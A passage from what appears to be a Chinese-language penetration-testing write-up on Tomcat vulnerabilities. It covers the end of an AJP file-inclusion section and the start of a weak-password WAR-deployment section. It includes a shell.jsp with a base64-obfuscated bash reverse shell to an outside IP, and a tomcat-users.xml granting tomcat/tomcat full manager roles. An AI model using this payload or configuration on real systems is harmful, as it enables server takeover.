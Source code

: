 ![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2LicpVz3wcatr4bRfWjJlrKKtdvtBJ90rGpKyXd6ibBZeAreNtKEc0qibDw/640?wx_fmt=png&from=appmsg "")  
##### 解决方案  
  
这个问题就是java会对exec函数里面的参数进行空格分隔
参考：https://www.cnblogs.com/BOHB-yunying/p/15523680.html
于是shell.jsp内容为：  
```
<%
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDYuMTIuMTQxLjM4Lzc4OTAgMD4mMQ==}|{base64,-d}|{bash,-i}");
%>

```  
  
运行脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2LgOuV2tq7sdhMfdQZ8DicSbxFrbXWstiaD1O2C0fABTt3vGF7NxQ6b3gQ/640?wx_fmt=png&from=appmsg "")  
  
监听到反弹shell的连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2L4HlhoSufBTKlGd6BpqkH9lDPV1DIjU8acQ3KA5Fniccs8rInsNrIggA/640?wx_fmt=png&from=appmsg "")  
### 总结  
  
这个漏洞利用需要一定的条件，比如目标机开启了8009端口，想要拿到shell的话，那么web服务需要有文件上传的功能，上传一个任意类型的文件，然后使用文件包含即可。  
## Tomcat 后台弱口令&& 任意war包部署  
### 漏洞概述  
  
tomcat 后台管理可以部署war包，在条件符合的情况下，可以通过部署war包，来拿下tomcat 服务器的shell  
### 利用条件  
  
tomcat后台的Manager App允许用户登入并且允许远程访问  
### 漏洞复现  
  
tomcat manager支持在后台部署war包文件，但是需要一定的权限，默认情况下，tomcat的后台管理界面只能允许本地访问，并且tomcat需要配置相关的账号和权限才可以登入，默认情况下是没有配置相关的账号的，需要手动在conf/tomcat-users.xml中配置，下面是一个配置实例  
```
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"              version="1.0">

    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
    
</tomcat-users>

```  
  